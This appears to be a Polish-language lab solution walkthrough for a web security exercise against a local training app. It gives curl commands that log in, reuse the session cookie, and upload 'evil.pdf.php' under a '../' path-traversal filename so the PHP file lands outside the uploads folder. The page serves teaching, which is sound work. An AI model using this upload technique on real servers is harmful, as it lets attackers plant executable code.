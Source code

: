 # Wykonanie [ROZWIĄZANIE]

Używając terminala wykonaj następujące polecenie:

```sh
curl -X POST -d "login=baim&password=baim" -i http://localhost:8080/
```

Z wylistowanego nagłówka skopiuj ciasteczko sesyjne PHPSSID i przeklej je do poniższego polecenia:

```sh
curl -b "PHPSESSID=<ciastko_sesji>" -X POST -F "file=@evil.pdf.php;filename=../evil.pdf.php" -F "submit=Prześlij" -i http://localhost:8080/?module=upload
```

Polecenie to wysyła wskazany plik z podmienioną nazwą.

Sprawdź w katalogu aplikacji, czy udało Ci się wysłać moduł poza folder **uploads**.
